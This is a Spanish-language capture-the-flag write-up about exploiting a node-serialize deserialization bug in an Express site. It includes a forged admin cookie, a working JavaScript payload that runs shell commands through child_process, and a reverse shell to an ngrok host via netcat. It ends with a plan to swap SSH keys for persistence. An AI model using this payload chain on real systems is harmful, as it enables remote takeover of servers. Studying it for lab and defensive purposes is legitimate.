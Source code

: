 # Ejercicio 2

Cuando ingresamos al sitio, nos encontramos con una imagen y un simple texto:
> The site is not yet complete, Come Back Later! 

Pero una vez que recargamos la pagina, esta vez vemos:
```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/under/node_modules/`node-serialize`/lib/serialize.js:62:16)
    at /under/server.js:12:29
    at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
    at next (/under/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/under/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
    at /under/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/under/node_modules/express/lib/router/index.js:335:12)
    at next (/under/node_modules/express/lib/router/index.js:275:10)
```

Pareciera ser que a la pagina le estamos mandando algo la segunda vez que entramos... Quizas una cookie?

Interceptando la request con un proxy, podemos leer
```
Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D
```

El prefijo 'ey' me suena de '{' en base64, y ademas vemos la presencia de un %3D que pareciera indicar que esta url-encoded.

Asi que pasandolo por url-decode + base64 en cyber chef obtenemos:
```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

Ahora entendemos el stack trace. Justamente este JSON esta mal hecho, deberia decir `"Expires=": "Friday ..."`, pero dice `"Expires=" : Friday ... "` (falta una comilla)

Agregando la comilla y encodeando en orden inverso para mandarselo por el proxy, la pagina ahora nos saluda:
> Hello Admin

Esto es peligroso, ya que esta tomando nuestro `user` como el valor de la cookie, la cual esta solo encodeada en b64. Esto no es peligroso en esta pagina, pero si hiciese algun tipo de consulta/cambios en el sistema dado el user, seria peligroso.

Ademas, tampoco se chequea el campo `Expires=` del token, ya que lo deje con la misma fecha (2018).

De igual manera, volviendo al stack trace, nos podemos dar cuenta de varias cosas importantes, una de ellas, es que la tecnología que usa este sitio es `express`, un framework de `node.js`, y la segunda, es que se esta usando la libreria `node-serialize`, la cual posee un bug conocido en la funcion `unserialize`. Podemos serializar una llamada a una funcion (recordando que las funciones en JS son objetos, asi que es posible), usando la misma `serialize` del paquete `node-serialize`.

Entonces lo que se nos ocurrio, dado que el servidor nos retorna el valor de la entrada `username`, fue inyectar codigo en esa entrada

Para esto, hicimos un script que nos auto-encodee una cookie con una funcion en la entrada `username`

```
const command = 'ls -lha /'

const payload = {
    'csrftoken': 'u32t4o3tb3gg431fs34ggdgchjwnza0l=',
    'Expires=': 'Tuesday, 13 Oct 2020 00: 00: 00 GMT',
    'username': function () {
        return require('child_process').execSync(command).toString();
    }
};

const serialize = require('node-serialize');

let res = serialize.serialize(payload);

res = res.slice(0, -2) + '()' + res.slice(-2); // to make it call itself

console.log('Result\n');
// serialize.unserialize(res);
console.log('Serialized: ' + res);
console.log('Cookie: ' + encodeURIComponent(Buffer.from(res).toString('base64')));
```

Corriendo varios comandos con esta tecnica, vimos que el usuario activo es `root`, que hay keys autorizadas para conectarse por ssh. O sea que podemos hacer de todo, hasta borrar archivos muajaja.

Así que intentamos hacer una conexion reversa con `netcat`, pero como `netcat` no estaba instalado en el sistema, buscamos otros métodos, como ssh/generar keys para poder entrar. Finalmente tuvimos la idea de directamente conectarnos por nodejs.

Para esto había que abrir puertos, pero abrir puertos desde la terminal es un bardo, porque hay que configurar el router. Entonces encontramos una herramienta llamada ngrok, que nos permite redirigir una conección tcp a traves de internet.

Con [ngrok](https://ngrok.com/), podemos crear tuneles y forwardear cualquier tipo de conección (tcp, http, etc.) a un puerto que elijamos. Entonces, por ejemplo, corriendo `./ngrok tcp 4445` (donde ngrok es el ejecutable que nos descargamos desde la página), la terminal nos devuelve:

```
ngrok by @inconshreveable                                                                                  (Ctrl+C to quit)
                                                                                                                           
Session Status                online                                                                                       
Account                       octaviopercivaldi2@gmail.com (Plan: Free)                                                    
Version                       2.3.35                                                                                       
Region                        United States (us)                                                                           
Web Interface                 http://127.0.0.1:4040                                                                        
Forwarding                    tcp://2.tcp.ngrok.io:16170 -> localhost:4445
```

Entonces, con esta información, podemos abrir otra terminal, y correr:

```nc -nlvp 4445```

Y con esto, vamos a estar escuchando todo lo que se envíe a la dirección `2.tcp.ngrok.io` y puerto `16170`.

Finalmente, agregando la ip y el puerto que nos devuelve ngrok al script crack_sh.js, el cual nos genera la cookie, podemos enviarla, y el servidor se va a conectar a nuestra terminal (la cual corrimos el comando nc), y... * se pone la capucha * WE'RE IN!!!

Ahora tenemos una terminal conectada al servidor, y por lo tanto tenemos permisos para crear, leer y eliminar archivos, entonces, podemos cambiar la clave ssh que esta en el servidor por una nueva la cual conozcamos su clave privada, y finalmente conectarnos en serio.

